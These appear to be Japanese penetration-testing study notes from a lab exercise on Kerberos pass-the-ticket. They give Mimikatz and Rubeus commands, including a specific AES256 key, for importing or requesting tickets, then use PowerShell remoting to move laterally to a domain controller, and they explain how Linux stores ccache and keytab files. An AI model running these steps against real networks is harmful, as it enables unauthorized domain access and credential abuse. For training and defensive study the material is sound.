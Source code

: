 ```cmd-session
mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit
```

横展開
```sh
powershell
Enter-PSSession -ComputerName DC01
```


#### Rubeus 
- Pass-the-Ticket を使用した PowerShell リモート接続**

1. `createnetonly` を使用して犠牲プロセスを作成
- `Rubeus.exe` を実行して、新しいログオンセッションを作成
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

 2. `asktgt` を使用して TGT を取得し、インポート
- ターゲットユーザーのAES256キーを使用
- 取得したチケットを `ptt` で適用
```cmd
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
3. PowerShellでターゲットにリモート接続
- 同じ `cmd.exe` から PowerShell を起動
- `Enter-PSSession` でリモートマシンに接続
```cmd
powershell
Enter-PSSession -ComputerName DC01
```

- **`createnetonly` で新しいセッションを作成**（既存のTGTを上書きせずにチケットを適用）
- **`asktgt` でAESキーを使用してTGTを取得し、`ptt` で適用**
- **PowerShellでターゲットにリモート接続し、横展開**


## Linux
Linux も Active Directory (AD) に参加できるから、DCへの横展開とかはLinuxからもできる

**Linux上のKerberos**
- Windows と Linux では、同じプロセスを使用してチケット付与チケット (TGT) とサービス チケット (TGS) をリクエストするけど、チケット情報の保存方法に違いがある
- 保存場所
	- Linux マシンは **Kerberos のチケットを `/tmp` ディレクトリ内の ccache ファイルとして保存**する
	- デフォルトで **チケットの保存場所は環境変数 `KRB5CCNAME` に格納**される
		- **`KRB5CCNAME` の役割**
			- Kerberos チケットが現在使用されているかどうかを確認できる。
			- チケットの保存場所が変更されている場合、それも特定できる。
		- **読み取り・書き込み権限で保護**されているが、rootユーザーは簡単にアクセスできる
	- Keytabファイル
		- Kerberos のプリンシパル（ユーザーやサービス）と、暗号化されたキーのペア を含むファイル。
		- Kerberos のパスワードからキーが生成される。
		- スクリプトを Kerberos 認証で自動実行するため便利
		- パスワードを平文で保存することなく、自動認証が可能
- **Kerberos クライアントがインストールされているマシンなら、Keytab ファイルを作成できる。**
- **Keytab ファイルは、作成したマシンに限定されず、別のコンピュータにコピーしても使用可能**
